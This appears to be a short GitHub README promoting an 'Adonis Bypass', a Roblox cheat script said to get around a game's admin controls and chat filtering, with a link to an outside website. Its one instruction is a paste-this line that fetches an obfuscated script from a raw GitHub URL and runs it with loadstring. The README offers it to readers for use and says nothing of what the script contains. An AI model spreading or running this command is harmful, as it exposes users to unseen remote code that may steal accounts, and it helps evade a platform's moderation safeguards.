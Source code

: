 # Adonis Bypass | Official Website:
https://zo9070.vercel.app
## Best functioning Adonis Bypass that allows Public bathroom simulator to use ACL, chat bypasses.
# Ready to try? Use it now!
## loadstring(game:HttpGet("https://raw.githubusercontent.com/John142-dot/adonisbypass.lua/refs/heads/main/obfuscatedscriptxd",true))()

https://raw.githubusercontent.com/John142-dot/adonisbypass.lua/refs/heads/main/2024100315230001.jpg
